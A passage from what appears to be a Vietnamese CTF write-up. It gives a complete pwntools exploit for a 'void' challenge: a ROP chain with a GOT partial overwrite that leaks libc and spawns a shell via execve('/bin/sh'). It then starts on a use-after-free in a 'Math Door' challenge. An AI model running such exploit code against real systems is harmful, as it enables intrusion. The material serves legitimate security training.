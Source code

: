 Lúc này  `read_syscall` được gọi ra, nó sẽ tự ghi đè chính return address của nó ( vì có `$rsi=read@got`, `$rsp=read@got+8`).

Final script:
```python
from pwn import *
from time import sleep
context.binary=e=ELF("./void")
libc=e.libc
def start():
    if args.LOCAL:
        p=e.process()
        if args.GDB:
            gdb.attach(p,gdbscript="""
            b *vuln+32
            b *main+25
            """)
            pause()
    elif args.REMOTE:
            p=remote(args.HOST,int(args.PORT))
    return p
rdi_ret=0x00000000004011bb
rsi_r15_ret=0x00000000004011b9
p=start()
p.sendline(b"A"*64+p64(e.got.read-8)+
           p64(rsi_r15_ret)+p64(e.got.read)+p64(0)+
           p64(e.plt.read)+
           p64(rdi_ret)+p64(1)+
           p64(e.plt.read)+
           p64(rdi_ret)+p64(0)+
           p64(e.sym.main+20)
)
sleep(1)
p.send(b"\x8c")
libc.address=u64(p.recv(8))-(libc.sym.read+12)
p.recv()
log.info(f"libc @ {hex(libc.address)}")
rdx_ret=0x00000000000c8acd+libc.address
p.sendline(p64(0)+
           p64(rdi_ret)+p64(next(libc.search(b"/bin/sh")))+
           p64(rsi_r15_ret)+p64(0)+p64(0)+
           p64(rdx_ret)+p64(0)+
           p64(libc.sym.execve))
p.interactive()
```

## Math Door

Use after free:
```c
void delete()
{
  unsigned int v0; // [rsp+Ch] [rbp-4h]

  puts("Hieroglyph index:");
  v0 = read_int();
  if ( v0 < counter )
    free((void *)chunks[v0]);
  else
    puts("That hieroglyph doens't exist.");
}
```
